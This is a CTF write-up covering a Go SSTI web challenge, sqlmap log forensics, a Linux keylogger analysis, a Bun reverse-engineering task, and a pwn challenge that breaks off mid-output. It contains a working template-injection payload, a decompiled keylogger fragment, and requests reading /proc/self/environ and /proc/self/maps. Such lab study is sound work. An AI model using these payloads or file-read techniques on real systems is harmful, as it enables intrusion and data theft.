From this output, I concluded that the presence of `main.content` and `main.content.files` indicates that the application uses `go:embed`.

Based on this, I attempted to extract the embedded files from the `rick_soldier` binary using [Go-Embed-Extractor](https://github.com/dimasma0305/Go-Embed-Extractor).

```bash
(ctf-env) lasangna@sandbox:~/ctf/web/soldier$ python3 extract_embed.py rick_soldier 
[*] No address provided. Attempting to find embed.FS automatically...
[*] Found 12 candidate symbols:
    - main.content @ 0xccd100
    - embed.dotFile @ 0xccd108
    - net/http.httpservecontentkeepheaders @ 0xccd120
    - net/http.httplaxcontentlength @ 0xccd178
    - time.loadFromEmbeddedTZData @ 0xce3d48
    - mime/multipart.multipartfiles @ 0xccd230
    - vendor/golang.org/x/net/http2/hpack.staticTable @ 0xccd320
    - crypto/internal/hpke.SupportedKDFs @ 0xce3ff0
    - compress/flate.huffOffset @ 0xce4038
    - compress/flate.fixedOffsetEncoding @ 0xce4048
    - math/big.leafSize @ 0xc83578
    - reflect..dict.TypeFor[encoding/asn1.RawContent] @ 0x9e0bf8
[*] Auto-selecting: main.content @ 0xccd100
[+] Found pointer to slice header at: 0x9ed1a0
[+] Found files array at: 0x9ed1b8
[+] Found 6 files in the embed system.
    [-] Extracting: .env (36 bytes)
    [-] Extracting: static/ (0 bytes)
    [-] Extracting: templates/ (0 bytes)
    [-] Extracting: static/rick_soldier_sprite.png (654726 bytes)
    [-] Extracting: static/style.css (203 bytes)
    [-] Extracting: templates/index.html (4490 bytes)

[+] Extraction complete. Check folder: extracted_embed
```

From the extracted output above, we can see that a `.env` file was successfully extracted from `rick_soldier`.

```bash
(ctf-env) lasangna@sandbox:~/ctf/web/soldier$ cat extracted_embed/.env 
SECRET_PHRASE=Morty_Is_The_Real_One
```

The `.env` file contains a `SECRET_PHRASE`, which can be used as the **Secret Key** on the web instance.

However, at this stage, we still did not obtain the correct **Battle Cry**.

Next, I performed deeper analysis using **Ghidra with the Go Analyzer Extension**.

I analyzed the `main.main` function and observed that when an incorrect Battle Cry is submitted, the function responsible for handling this case is `rick/router.(*Handler).Fight`.

I then analyzed the implementation of `rick/router.(*Handler).Fight` and identified an **SSTI (Server-Side Template Injection)** vulnerability:

- The application retrieves the **Battle Cry** input from a form using `FormValue`
- The input is passed into `fmt.Sprintf` to construct a string
- The resulting string is then parsed using `html/template.(*Template).Parse`

From the earlier analysis of `main.main`, we can see that the `FLAG` is stored inside the `Handler` struct, and the `Fight` function is executed within the context of this struct.

After multiple attempts using inputs that are interpreted as Go templates (`{{ ... }}`), I discovered a payload that prints the entire contents of the `BattleView` struct:

```
{{ printf "%#v" . }}
```

This payload leverages *reflection* to dump the full structure of the object, including private fields.

## Exploit

By submitting `{{ printf "%#v" . }}` as the Battle Cry and `Morty_Is_The_Real_One` as the Secret Key, I successfully caused the application to display the flag on the page.

Flag: **`C2C{R1ck_S0ld13r_0f_G0d_H4s_F4ll3n_v14_SST1_SSR7_bc5b6a19cb75}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro**, accessed through Google AI Pro with a Student Account subscription.

Almost the entire challenge was solved with the help of Gemini, ranging from analyzing Ghidra pseudocode to identifying Go vulnerabilities and crafting the solution.

My role was mainly focused on extracting the embedded files to obtain the `.env` file and performing several trial-and-error attempts for the Battle Cry payload.

Below are some example prompts I used to analyze the code or generate payloads:

```
analyze this code from rick/router.(*Handler).Fight

void rick/router.(*Handler).Fight(int **param_1,int param_2,undefined8 param_3,sdword **param_4)

{
    ...
```

```
when using {{ . }}

i got this
You screamed: "BattleView{Rick: Rick, Soldier of God HP:999999, LastMsg: Rick explicitly ignores your Scream. He is simply too powerful.}" 

and when using {{ .Secret }}

i got this 
You screamed: "not too easy" 

what command can i use next?
```

The methodology I used to verify Gemini’s output was to directly test the suggested payloads. If they failed, I searched for additional references first before asking Gemini again for the next possible solution.

---

# forensics/Log

### Question 1

```
Question #1:
1. What is the Victim's IP address?
Required Format: 127.0.0.1
Your Answer: 182.8.97.244
Status: Correct!
```

By inspecting `access.log`, several lines at the beginning show the source IP as `182.8.97.244`, so I assumed this to be the victim’s IP address.

### Question 2

```
Question #2:
2. What is the Attacker's IP address?
Required Format: 127.0.0.1
Your Answer: 219.75.27.16
Status: Correct!
```

Based on `access.log`, line 108 shows the IP address `219.75.27.16` sending requests containing the `sqlmap` payload. As far as I know, `sqlmap` is a penetration testing tool commonly used for SQL Injection and database takeover. Therefore, I assumed this IP address belongs to the attacker.

### Question 3

```
Question #3:
3. How many login attempts were made by the attacker?
Required Format: 1337
Your Answer: 6
Status: Correct!
```

Since the attacker’s IP address was already identified, we can search for login attempts made by that IP using the following command:

```bash
grep "219.75.27.16" access.log | grep "POST /wp-login.php"
```

From the output, there are 7 login attempts in total. However, if we look closely at the HTTP status codes, 6 requests returned `200`, while 1 request returned `302`.

This indicates that the attacker made 6 failed login attempts (`200 OK`) and successfully logged in on the 7th attempt (`302 Found`).

> **Note:** Before the challenge was fixed, I was confused as to why both answers 6 or 7 were marked incorrect. I randomly answered 5 and it was accepted, but after the fix, the expected answer became clearer.

### Question 4

```
Question #4:
4. Which plugin was affected (Full Name)?
Required Format: -
Your Answer: Easy Quotes
Status: Correct!
```

To identify which plugin was affected by the attack, we can inspect the `error.log` file using the following command:

```bash
grep -oP '/wp-content/plugins/\K[^/]+' error.log | sort | uniq -c
```

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/foren/log]
└──╼ $grep -oP '/wp-content/plugins/\K[^/]+' error.log | sort | uniq -c
   2943 easy-quotes
```

From this result, we can conclude that the affected plugin is `easy-quotes`, also known as **Easy Quotes**.

### Question 5

```
Question #5:
5. What is the CVE ID?
Required Format: CVE-XXXX-XXXX
Your Answer: CVE-2025-26943
Status: Correct!
```

For Question 5, I directly searched online for the CVE associated with the Easy Quotes plugin.

[image here]

### Question 6

```
Question #6:
6. Which tool and version were used to exploit the CVE?
Required Format: tool_name/13.3.7
Your Answer: sqlmap/1.10.1.21
Status: Correct!
```

From Question 2, we already know that the attacker used `sqlmap`, and the version is also visible. To extract this information using `grep`, we can use the following command:

```bash
grep -o "sqlmap/[0-9a-zA-Z.#]*" access.log | uniq
```

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/foren/log]
└──╼ $grep -o "sqlmap/[0-9a-zA-Z.#]*" access.log | uniq
sqlmap/1.10.1.21#dev
```

### Question 7

```
Question #7:
7. What is the email address obtained by the attacker?
Required Format: r00t@localhost.xyz
Your Answer: admin@daffainfo.com
Status: Correct!
```

For this question, I asked **Gemini** to help analyze `access.log` in order to understand the attacker’s `sqlmap` activity and to generate a Python script to extract the data.

Below is the `solve.py` script:

```python
import re
from datetime import datetime

log_file = "access.log"

try:
    with open(log_file, "r") as file:
        lines = file.readlines()

    data = []

    for i in range(len(lines) - 1):
        current_line = lines[i]
        next_line = lines[i+1]
        
        # Only search for lines that extract characters with pattern != (URL encoded: %21%3D)
        if "SLEEP" in current_line and "%21%3D" in current_line:
            
            # Ekstrak current request time and next request
            time_match_1 = re.search(r'\[(.*?) \+0000\]', current_line)
            time_match_2 = re.search(r'\[(.*?) \+0000\]', next_line)
            
            if time_match_1 and time_match_2:
                time_1 = datetime.strptime(time_match_1.group(1), "%d/%b/%Y:%H:%M:%S")
                time_2 = datetime.strptime(time_match_2.group(1), "%d/%b/%Y:%H:%M:%S")
                
                # Count time diff
                time_diff = (time_2 - time_1).total_seconds()
                
                # if time diff less than 2s, != condition is FALSE.
                # So, guess for the character is TRUE
                if time_diff < 2:
                    # Find guessed ASCII number (after %21%3D)
                    ascii_match = re.search(r'%21%3D(\d+)', current_line)
                    if ascii_match:
                        ascii_val = int(ascii_match.group(1))
                        char = chr(ascii_val)
                        data.append(char)

    print("[+] Extraction Result: " + "".join(data))

except Exception as e:
    print(f"Error occured: {e}")
```

To better understand the output of this script, I also asked Gemini to help break down and interpret the extracted data.

[image here]

From the extracted output, we obtained the following fields: `user_login`, `user_email`, `user_nicename`, `display_name`, `user_pass` (hash), `user_registered`, `user_status`, and `user_url`.

### Question 8

```
Question #8:
8. What is the password hash obtained by the attacker?
Required Format: -
Your Answer: $wp$2y$10$vMTERqJh2IlhS.NZthNpRu/VWyhLWc0ZmTgbzIUcWxwNwXze44SqW
Status: Correct
```

To answer Question 8, I used the value obtained from Question 7.

### Question 9

```
Question #9:
9. When did the attacker successfully log in?
Required Format: DD/MM/YYYY HH:MM:SS
Your Answer: 11/01/2026 13:12:49
Status: Correct!
```

To answer Question 9, I used the result from **Question 3**, specifically the moment when the attacker successfully logged in (HTTP response `302 Found`):

```bash
219.75.27.16 - - [11/Jan/2026:13:12:49 +0000] "POST /wp-login.php HTTP/1.1" 302 1275 "http://165.22.125.147/wp-login.php?redirect_to=http%3A%2F%2F165.22.125.147%2Fwp-admin%2F&reauth=1" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.56 Safari/537.36"
```

From this log entry, the attacker successfully logged in at `[11/Jan/2026:13:12:49 +0000]`, which was then reformatted to `11/01/2026 13:12:49`.

Flag: **`C2C{7H15_15_V3rY_345Y_814f6a5316dd}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro**, accessed through Google AI Pro with a Student Account subscription.

I only used Gemini to analyze and generate a script for Question 7.

Below are the prompts I used:

```
analyze how sqlmap retrieve data from access.log file
```

```
create a script to extract the data
```

The methodology I used to verify Gemini’s output was to directly test the generated results. If there were errors or failures, I tried to manually adjust the script. If I could not fix the issue myself, I asked Gemini to refine and correct the script.

---

# forensics/Tattletale

First, I analyzed the `serizawa` file using the `file` command:

```bash
(venv) ┌─[lasangna@parrot]─[~/ctf/c2c/foren/tattletale/dist]
└──╼ $file serizawa 
serizawa: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f5e4eb9bd95f0a14f41d1ef1a6f8ee703c85a059, stripped
```

Since the `serizawa` binary is **stripped**, I analyzed it using **Ghidra** by inspecting the entry function and then asked Gemini to help analyze the pseudocode of the functions called by this entry point.

From this analysis, I concluded that `serizawa` is not malware written from scratch, but rather a Python script packaged using **PyInstaller**.

To extract the contents of `serizawa`, I used [pyinstxtractor.py](https://github.com/extremecoders-re/pyinstxtractor):

```bash
(ctf-env) lasangna@sandbox:~/ctf/foren/tattletale/dist$ python3 pyinstxtractor.py serizawa 
[+] Processing serizawa
[+] Pyinstaller version: 2.1+
[+] Python version: 3.11
[+] Length of package: 17011072 bytes
[+] Found 55 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: serizawa.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.11 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: serizawa

You can now use a python decompiler on the pyc files within the extracted directory
```

From the extracted files, we can see that `serizawa.pyc` exists and is likely the main malware code.

To decompile `serizawa.pyc`, I used [pycdc](https://github.com/zrax/pycdc):

```bash
(ctf-env) lasangna@sandbox:~/ctf/foren/tattletale/dist/serizawa_extracted$ pycdc serizawa.pyc 
# Source Generated with Decompyle++
# File: serizawa.pyc (Python 3.11)

import struct
import sys
import os
streya = '/dev/input/event0'
pvut = '/opt/cron.aseng'
strc = 'QQHHi'
evo = struct.calcsize(strc)

def prm():
    if os.geteuid() != 0:
        sys.exit(1)
    if not os.path.exists(streya):
        sys.exit(1)
        return None


def kst():
Unsupported opcode: BEFORE_WITH (108)
    ec = 0
# WARNING: Decompyle incomplete


def main():
    prm()
    kst()

if __name__ == '__main__':
    main()
    return None
```

Although the decompilation was incomplete, the recovered code was sufficient to analyze the malware. From this, it can be concluded that `serizawa` is a **keylogger**.

Connecting this with the other files obtained:
1. `serizawa` is a keylogger running in the background
2. `cron.aseng` is a file containing the victim’s keystroke logs
3. `whatisthis.enc` is an encrypted file, which likely contains the flag for this challenge

Next, I analyzed the `cron.aseng` file:

```bash
(ctf-env) lasangna@sandbox:~/ctf/foren/tattletale/dist$ xxd cron.aseng | head -n 10
00000000: 143f 8c69 0000 0000 3083 0700 0000 0000  .?.i....0.......
00000010: 0400 0400 2600 0000 143f 8c69 0000 0000  ....&....?.i....
00000020: 3083 0700 0000 0000 0100 2600 0100 0000  0.........&.....
00000030: 143f 8c69 0000 0000 3083 0700 0000 0000  .?.i....0.......
00000040: 0000 0000 0000 0000 143f 8c69 0000 0000  .........?.i....
00000050: e93d 0800 0000 0000 0400 0400 2600 0000  .=..........&...
00000060: 143f 8c69 0000 0000 e93d 0800 0000 0000  .?.i.....=......
00000070: 0100 2600 0000 0000 143f 8c69 0000 0000  ..&......?.i....
00000080: e93d 0800 0000 0000 0000 0000 0000 0000  .=..............
00000090: 143f 8c69 0000 0000 7cc3 0800 0000 0000  .?.i....|.......
```

## Solve

With the help of Gemini, I analyzed this file and identified its pattern, then asked Gemini to create a script to parse `cron.aseng`.

Below is the `parser.py` script:

```python
import struct

# Map some Linux Keycodes to human readable
KEY_MAP = {
    2: '1', 3: '2', 4: '3', 5: '4', 6: '5', 7: '6', 8: '7', 9: '8', 10: '9', 11: '0',
    12: '-', 13: '=', 14: '[BACKSPACE]', 15: '[TAB]',
    16: 'q', 17: 'w', 18: 'e', 19: 'r', 20: 't', 21: 'y', 22: 'u', 23: 'i', 24: 'o', 25: 'p', 26: '[', 27: ']', 28: '\n',
    30: 'a', 31: 's', 32: 'd', 33: 'f', 34: 'g', 35: 'h', 36: 'j', 37: 'k', 38: 'l', 39: ';', 40: "'", 42: '[SHIFT]',
    44: 'z', 45: 'x', 46: 'c', 47: 'v', 48: 'b', 49: 'n', 50: 'm', 51: ',', 52: '.', 53: '/', 54: '[SHIFT]',
    57: ' ', 58: '[CAPS]'
}

with open('cron.aseng', 'rb') as f:
    while True:
        # Read 24 byte per event
        data = f.read(24)
        if not data or len(data) < 24:
            break
        
        # Unpack using the same struct with malware: QQHHi
        tv_sec, tv_usec, ev_type, ev_code, ev_value = struct.unpack('QQHHi', data)
        
        # Filter: Only take EV_KEY (Type 1) and when key PRESSED (Value 1)
        if ev_type == 1 and ev_value == 1:
            char = KEY_MAP.get(ev_code, f'[{ev_code}]')
            print(char, end='')
print()
```

Below is the output of `parser.py`:

```bash
(ctf-env) lasangna@sandbox:~/ctf/foren/tattletale/dist$ python3 parser.py 
ls
whoami
echo [SHIFT]'[CAPS]y[CAPS]ey you finally decrypt me [SHIFT];0[SHIFT]'
echo [SHIFT]'[CAPS]j[CAPS]ust a little more steps ok[SHIFT]/[SHIFT]'
env [SHIFT]. whatisthis
od whatisthis [SHIFT]. whatisthis.baboi
openssl enc -aes-256-cbc -salt -pass pass[SHIFT];letsseethepassword[BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE]hmmm[BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE]thepasswordisjajajaja[BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE]4[SHIFT]-g00d[SHIFT]-fr1en[BACKSPACE][BACKSPACE]3n[CAPS]d[CAPS][SHIFT]-in[SHIFT]-n33[CAPS]d[CAPS] -in whatisthis.baboi -out whatisthis.enc
echo [SHIFT]'[CAPS]o[CAPS]k go for it[SHIFT]1 [CAPS]t[CAPS]he flag is in env btw[SHIFT]'
[29]c
```

From the output above, we can see that the victim executed the following command:

```bash
env > whatisthis
```

Then used `od` to dump the file into `whatisthis.baboi`:

```bash
od whatisthis > whatisthis.baboi
```

The critical part is the password creation process. After analyzing the keystrokes, the password was determined to be:

```
4_g00d_fr13nD_in_n33D
```

Next, I decrypted the `whatisthis.enc` file using the same algorithm used during encryption, namely `aes-256-cbc`:

```bash
openssl enc -d -aes-256-cbc -salt -pass pass:4_g00d_fr13nD_in_n33D -in whatisthis.enc -out whatisthis.bababoi.recovered
```

Finally, to decode the `whatisthis.baboi.recovered` file (which had previously been processed with `od`), I asked Gemini to create a decoding script.

Below is the `decode_od.py` script:

```python
import struct

output_text = ""

with open("whatisthis.baboi.recovered", "r") as f:
    for line in f:
        parts = line.strip().split()
        
        # if line empty or only last offset ( 0005002), pass
        if len(parts) < 2:
            continue
            
        # First column is offset, the rest of it are octal values
        octal_values = parts[1:]
        
        for oct_str in octal_values:
            # Convert octal string to integer
            val = int(oct_str, 8)
            
            # Pack integer into 2 byte (Little Endian), then decode to teks
            # Ignore error if non-ASCII characters
            chars = struct.pack('<H', val).decode('ascii', errors='ignore')
            output_text += chars

print(output_text)

```
[image here]

Flag: **`C2C{it_is_just_4_very_s1mpl3_l1nuX_k3ylogger_xixixi_haiyaaaaa_ez}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro**, accessed through Google AI Pro with a Student Account subscription.

I used Gemini to analyze Ghidra pseudocode, analyze the `cron.aseng` file, and to create the parser and decoder scripts.

Below are some of the prompts I used:

```
analyze this 

void FUN_00401ca0(undefined4 param_1,undefined8 param_2)

{
    ...
```

```
this what i got from decompiling serizawa.pyc

# Source Generated with Decompyle++
# File: serizawa.pyc (Python 3.11) 
...
```

```
can you read this file pattern ...
```

```
create the script to parse this ...
```

The methodology I used to verify Gemini’s output was to directly test the generated results. In this challenge, none of Gemini’s suggestions failed.

---

# reverse/bunaken

First, I tried to analyze the `bunaken` file by executing it to get a rough understanding of the challenge:

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/reveng/bunaken]
└──╼ $./bunaken 
ENOENT: no such file or directory, open 'flag.txt'
    path: "flag.txt",
 syscall: "open",
   errno: -2,
    code: "ENOENT"

Bun v1.3.6 (Linux x64)
```

From this output, I discovered that `bunaken` is a **JavaScript/TypeScript runtime** built using **Bun**.

Next, I verified whether the `bunaken` binary was stripped by checking it with the `file` command:

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/reveng/bunaken]
└──╼ $file bunaken 
bunaken: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=109a021c1b3405d73bd0e95dcad52ec5857f4ed9, not stripped
```

Since the file is confirmed to be **not stripped**, I proceeded with static analysis using `strings`:

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/reveng/bunaken]
└──╼ $strings bunaken > bunaken_strings.txt
```

I then searched for interesting string patterns such as `flag` or `flag.txt`.

[image here]

Below is the section of the code containing `flag.txt`:

```javascript
function w(){let n=["WR0tF8oezmkl","toString","W603xSol","1tlHJnY","1209923ghGtmw","text","13820KCwBPf","byteOffset","40xRjnfn","Cfa9","bNaXh8oEW6OiW5FcIq","alues","lXNdTmoAgqS0pG","D18RtemLWQhcLConW5a","nCknW4vfbtX+","WOZcIKj+WONdMq","FCk1cCk2W7FcM8kdW4y","a8oNWOjkW551fSk2sZVcNa","yqlcTSo9xXNcIY9vW7dcS8ky","from","iSoTxCoMW6/dMSkXW7PSW4xdHaC","c0ZcS2NdK37cM8o+mW","377886jVoqYx","417805ESwrVS","7197AxJyfv","cu7cTX/cMGtdJSowmSk4W5NdVCkl","W7uTCqXDf0ddI8kEFW","write","encrypt","ted","xHxdQ0m","byteLength","6CCilXQ","304OpHfOi","set","263564pSWjjv","subtle","945765JHdYMe","SHA-256","Bu7dQfxcU3K","getRandomV"];return w=function(){return n},w()}function l(n,r){return n=n-367,w()[n]}var y=l,s=c;function c(n,r){n=n-367;let t=w(),x=t[n];if(c.uRqEit===void 0){var b=function(i){let f="",a="";for(let d=0,o,e,p=0;e=i.charAt(p++);~e&&(o=d%4?o*64+e:e,d++%4)?f+=String.fromCharCode(255&o>>(-2*d&6)):0)e="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=".indexOf(e);for(let d=0,o=f.length;d<o;d++)a+="%"+("00"+f.charCodeAt(d).toString(16)).slice(-2);return decodeURIComponent(a)};let U=function(i,B){let f=[],a=0,d,o="";i=b(i);let e;for(e=0;e<256;e++)f[e]=e;for(e=0;e<256;e++)a=(a+f[e]+B.charCodeAt(e%B.length))%256,d=f[e],f[e]=f[a],f[a]=d;e=0,a=0;for(let p=0;p<i.length;p++)e=(e+1)%256,a=(a+f[e])%256,d=f[e],f[e]=f[a],f[a]=d,o+=String.fromCharCode(i.charCodeAt(p)^f[(f[e]+f[a])%256]);return o};c.yUvSwA=U,c.MmZTqk={},c.uRqEit=!0}let u=t[0],I=n+u,A=c.MmZTqk[I];return!A?(c.ftPoNg===void 0&&(c.ftPoNg=!0),x=c.yUvSwA(x,r),c.MmZTqk[I]=x):x=A,x}(function(n,r){let t=c,x=l,b=n();while(!0)try{if(parseInt(x(405))/1*(parseInt(x(383))/2)+-parseInt(x(385))/3*(parseInt(t(382,"9Dnx"))/4)+parseInt(x(384))/5*(-parseInt(x(393))/6)+parseInt(x(396))/7*(parseInt(x(369))/8)+parseInt(t(381,"R69F"))/9+-parseInt(x(367))/10+-parseInt(x(406))/11===r)break;else b.push(b.shift())}catch(u){b.push(b.shift())}})(w,105028);var h=async(n)=>{let r=l,t=c,x=n instanceof ArrayBuffer?new Uint8Array(n):new Uint8Array(n[t(400,"I2yl")],n[r(368)],n.byteLength);if(x.byteLength===16||x.byteLength===24||x.byteLength===32)return x;let b=await crypto.subtle[t(402,"Fw]1")](r(399),x);return new Uint8Array(b).subarray(0,16)},g=(n,r)=>{let t=l,x=new Uint8Array(n.byteLength+r.byteLength);return x.set(n,0),x[t(395)](r,n[t(392)]),x},m=async(n,r)=>{let t=c,x=l,b=crypto[x(401)+x(372)](new Uint8Array(16)),u=await h(n),I=await crypto[x(397)][t(371,"kAmA")](t(370,"CYgn"),u,{name:"AES-CBC"},!1,[x(389)]),A=await crypto.subtle[x(389)]({name:t(375,"dHTh"),iv:b},I,r);return g(b,new Uint8Array(A))},S=Bun[s(391,"9Dnx")](s(377,"R69F")),k=await S[y(407)](),v=await Bun[s(387,"f]pG")+"ss"](k),z=await m(Buffer[y(380)](s(373,"rG]G")),v);Bun[y(388)]("flag.txt.b"+s(374,"CYgn")+y(390),Buffer[s(404,"(Y*]")](z)[y(403)](s(376,"$lpa")));
```

At this point, I asked Gemini to analyze the execution flow of these functions. From the analysis, it can be summarized that:
- `h` performs **key derivation**
- `m` performs **encryption**
- `g` handles **data structuring**
- Finally, `Buffer.from(z).toString('base64')` is written to `flag.txt.bunakencrypted`

## Solve

To decrypt `flag.txt.bunakencrypted`, I asked Gemini to create a script that reuses the **deobfuscation logic** extracted from the binary.

Below is the `solve.js` script:

```javascript
const crypto = require('crypto');

// 1. --- DEOBFUSCATOR CODE FROM BUNAKEN ---
function w(){let n=["WR0tF8oezmkl","toString","W603xSol","1tlHJnY","1209923ghGtmw","text","13820KCwBPf","byteOffset","40xRjnfn","Cfa9","bNaXh8oEW6OiW5FcIq","alues","lXNdTmoAgqS0pG","D18RtemLWQhcLConW5a","nCknW4vfbtX+","WOZcIKj+WONdMq","FCk1cCk2W7FcM8kdW4y","a8oNWOjkW551fSk2sZVcNa","yqlcTSo9xXNcIY9vW7dcS8ky","from","iSoTxCoMW6/dMSkXW7PSW4xdHaC","c0ZcS2NdK37cM8o+mW","377886jVoqYx","417805ESwrVS","7197AxJyfv","cu7cTX/cMGtdJSowmSk4W5NdVCkl","W7uTCqXDf0ddI8kEFW","write","encrypt","ted","xHxdQ0m","byteLength","6CCilXQ","304OpHfOi","set","263564pSWjjv","subtle","945765JHdYMe","SHA-256","Bu7dQfxcU3K","getRandomV"];return w=function(){return n},w()}function l(n,r){return n=n-367,w()[n]}var y=l,s=c;function c(n,r){n=n-367;let t=w(),x=t[n];if(c.uRqEit===void 0){var b=function(i){let f="",a="";for(let d=0,o,e,p=0;e=i.charAt(p++);~e&&(o=d%4?o*64+e:e,d++%4)?f+=String.fromCharCode(255&o>>(-2*d&6)):0)e="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=".indexOf(e);for(let d=0,o=f.length;d<o;d++)a+="%"+("00"+f.charCodeAt(d).toString(16)).slice(-2);return decodeURIComponent(a)};let U=function(i,B){let f=[],a=0,d,o="";i=b(i);let e;for(e=0;e<256;e++)f[e]=e;for(e=0;e<256;e++)a=(a+f[e]+B.charCodeAt(e%B.length))%256,d=f[e],f[e]=f[a],f[a]=d;e=0,a=0;for(let p=0;p<i.length;p++)e=(e+1)%256,a=(a+f[e])%256,d=f[e],f[e]=f[a],f[a]=d,o+=String.fromCharCode(i.charCodeAt(p)^f[(f[e]+f[a])%256]);return o};c.yUvSwA=U,c.MmZTqk={},c.uRqEit=!0}let u=t[0],I=n+u,A=c.MmZTqk[I];return!A?(c.ftPoNg===void 0&&(c.ftPoNg=!0),x=c.yUvSwA(x,r),c.MmZTqk[I]=x):x=A,x}(function(n,r){let t=c,x=l,b=n();while(!0)try{if(parseInt(x(405))/1*(parseInt(x(383))/2)+-parseInt(x(385))/3*(parseInt(t(382,"9Dnx"))/4)+parseInt(x(384))/5*(-parseInt(x(393))/6)+parseInt(x(396))/7*(parseInt(x(369))/8)+parseInt(t(381,"R69F"))/9+-parseInt(x(367))/10+-parseInt(x(406))/11===r)break;else b.push(b.shift())}catch(u){b.push(b.shift())}})(w,105028);
// ------------------------------------------------

async function decryptFlag() {
    // 2. Extract hidden key using deobfuscator func (s)
    const rawKey = s(373, "rG]G");
    console.log("[+] Raw Key berhasil di-ekstrak:", rawKey);

    // 3. Replicate 'h' func: Hash with SHA-256 and take first 16 byte
    const hash = crypto.createHash('sha256').update(rawKey).digest();
    const encryptionKey = hash.subarray(0, 16);

    // 4. Base64 from flag.txt.bunakencrypted
    const b64Flag = "3o2Gh52pjRk80IPViTp8KUly+kDGXo7qAlPo2Ff1+IOWW1ziNAoboyBZPX6R4JvNXZ4iWwc662Nv/rMPLdwrIb3D4tTbOg/vi0NKaPfToj0=";
    const encryptedBuffer = Buffer.from(b64Flag, 'base64');

    // 5. Replicate 'g' func: split first 16 byte as IV, and the rest as Ciphertext
    const iv = encryptedBuffer.subarray(0, 16);
    const ciphertext = encryptedBuffer.subarray(16);

    // 6. Final decrypt
    const decipher = crypto.createDecipheriv('aes-128-cbc', encryptionKey, iv);
    let decrypted = decipher.update(ciphertext);
    decrypted = Buffer.concat([decrypted, decipher.final()]);

    console.log("[+] FLAG:", decrypted.toString('utf8'));
}

decryptFlag().catch(console.error);
```

Below is the output of `solve.js`:

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/reveng/bunaken]
└──╼ $node solve.js 
[+] Raw Key berhasil di-ekstrak: sulawesi
[+] FLAG: (�/� 3�C2C{BUN_AwKward_ENcryption_compression_obfuscation}
```

Flag: **`C2C{BUN_AwKward_ENcryption_compression_obfuscation}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro**, accessed through Google AI Pro with a Student Account subscription.

I used Gemini to analyze the findings from `strings` and to create the solver script to recover the flag from the encrypted file.

Below are some of the prompts I used:

```
i find this in bunaken strings

function w(){let n=["WR0tF8oezmkl", ...

can you analyze it and find what is it about?
```

```
according to the function, create the script to decrypt the flag.txt.bunakencrypted
```

The methodology I used to verify Gemini’s output was to test the generated results and understand the execution flow. In this challenge, Gemini’s output did not produce errors; the decrypted output contained some non-printable characters, but the flag was successfully recovered.

---

# pwn/ns3

This challenge was quite nice because it provides the `.cpp` source code, so I didn’t need to analyze the ELF binary directly (W author).

First, I asked Gemini to analyze the program flow and identify potential vulnerabilities that could be exploited. After that, I tried running the program locally to obtain a test flag first. Once the exploit worked locally, I executed it against the remote instance.

I initially attempted to retrieve environment variables by sending a GET request to `/proc/self/environ` using a Gemini-assisted script. From the output, I successfully retrieved environment variables, but not the flag.

```bash
(ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python3 exploit.py
[+] Opening connection to localhost on port 8080: Done
[*] Sending payload to read: /proc/self/environ
[+] Receiving all data: Done (218B)
[*] Closed connection to localhost port 8080
[+] Response received

--- Environment Variables ---
HOSTNAME=36f085300a40
SHLVL=1
HOME=/
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/app
USER=nobody
LOGNAME=nobody
SHELL=./server 
```

From this output, I realized that the process runs as `USER=nobody`. This indicates a *privilege drop*, meaning I could not directly read the flag.

Next, I analyzed the contents of `run.sh` and found that the `GZCTF_FLAG` variable is written to a file with a random name (`/flag-xxxx...`), then the environment variable is unset, and the process is executed as the `nobody` user.

`run.sh`
```shell
#!/bin/sh

rm /flag-* 2>/dev/null
echo $GZCTF_FLAG > /flag-$(tr -dc 'a-f0-9' < /dev/urandom | head -c 64)
unset GZCTF_FLAG
exec su -s ./server nobody 
```

I then discussed this again with Gemini and decided to try a different approach. Gemini suggested leaking virtual memory information from `/proc/self/maps`.

```bash
(ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python exploit.py
[+] Opening connection to localhost on port 8080: Done
[*] Sending payload to read: /proc/self/maps
[+] Receiving all data: Done (952B)
[*] Closed connection to localhost port 8080
[+] Response received


--- Memory Maps ---
55558c784000-55558c7a6000 rw-p 00000000 00:00 0                          [heap]
